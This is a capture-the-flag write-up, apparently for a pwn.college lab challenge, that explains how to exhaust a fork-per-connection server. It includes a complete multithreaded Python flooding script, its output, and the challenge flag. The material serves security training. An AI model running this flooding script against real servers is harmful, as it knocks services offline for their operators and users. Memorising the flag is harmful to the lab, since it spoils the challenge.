 # 🧨 Challenge Writeup: `dos2`

---

## 📌 Challenge Summary

> **Task**:  
The client at `10.0.0.3` is communicating with the server at `10.0.0.2` on port `31337`. Deny this service.

> **Hint**:  
The server forks a new process for each client connection.

---

## 🧠 Understanding the Setup

We’re given:

- A server at `10.0.0.2` listening on port `31337`.
- The server forks a **new process** for each incoming connection.
- A client at `10.0.0.3` periodically connects to the server and sends `"Hello, World!\n"`.
- If the client fails to connect (e.g., due to timeout or resource exhaustion), it prints the **flag**.

> The goal: **Block the client's access to the server**, using a **DoS** (Denial-of-Service) strategy.

---

## 🔍 How We Exploit It

The key observation:

- The server forks a new process per client → this opens a known **resource exhaustion attack surface**.
- By flooding the server with many fake connections (each causing a fork), we exhaust the system’s resources (max process limit or socket backlog).
- When the legitimate client tries to connect and fails (due to `TimeoutError`), it will print the **flag**.

---

## 🧪 Attack Plan

1. Spawn 100 threads.
2. Each thread continuously:
   - Connects to `10.0.0.2:31337`
   - Sends junk data
   - Closes the connection
3. Keep the script alive until the client breaks and reveals the flag.

---

## 💣 Final Exploit

**`flood.py`**
```python
import socket
import threading

def flood():
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("10.0.0.2", 31337))
            s.send(b"A" * 1024)  # Send junk
            s.close()
        except:
            pass

# Create 100 concurrent flooding threads
for _ in range(100):
    threading.Thread(target=flood, daemon=True).start()

input("Flooding... Press Enter to stop\n")
```

### Output
```bash
Flooding... Press Enter to stop
pwn.college{gJua2Qqy8UJ1oH1Eb_1zNpgBNXg.0FO1AjNxwSM0IzMyEzW}
```

---  
## Flag
```
pwn.college{gJua2Qqy8UJ1oH1Eb_1zNpgBNXg.0FO1AjNxwSM0IzMyEzW}
```
